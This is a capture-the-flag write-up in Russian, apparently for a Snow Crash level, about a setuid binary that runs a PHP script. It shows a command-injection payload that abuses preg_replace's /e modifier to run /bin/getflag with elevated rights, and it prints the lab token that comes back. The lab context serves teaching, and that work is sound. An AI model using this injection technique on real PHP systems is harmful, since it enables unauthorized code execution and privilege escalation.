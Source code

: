 ```
ls -l
```
> total 12\
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06\
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

так как на level06 есть suid, значить выполнять необходимо будет его

```
strace ./level06 2>&1 | grep execve
```
> execve("./level06", ["./level06"], [/* 20 vars */]) = 0\
execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 20 vars */]) = 0

Понятно, что этот бинарник выполняет скрипт, который лежит рядом

Тестируя понимаем, что первым аргументом level06 принимает файл, который будет распаршен
```
./level06
```
> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

```
./level06 123
```
> PHP Warning:  file_get_contents(123): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

```
cat level06.php
```
> #!/usr/bin/php\
<?php\
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }\
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }\
$r = x($argv[1], $argv[2]); print $r;\
?> 

В скрипте есть строка

<pre>
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)\
                                 ^
                                 |
Это означает, что далее найденный паттерн выполниться в php коде, в нашем случае в функции y()
</pre>

<pre>
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
preg_replace — Выполняет поиск и замену по регулярному выражению
Выполняет поиск совпадений в строке subject с шаблоном pattern и заменяет их на replacement.
</pre>

Главное, чтобы то что пришло в subject удовлетворяло регулярке и выполнилось в коде

дальнейшее выполнение нас не интересует, главное, чтобы php выполнил getflag для этого создаем файл, который будем ему подавать

```
echo  '[x ${`/bin/getflag`}]' > /tmp/php
```

```
./level06 /tmp/php
```
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub\
 in /home/user/level06/level06.php(4) : regexp code on line 1
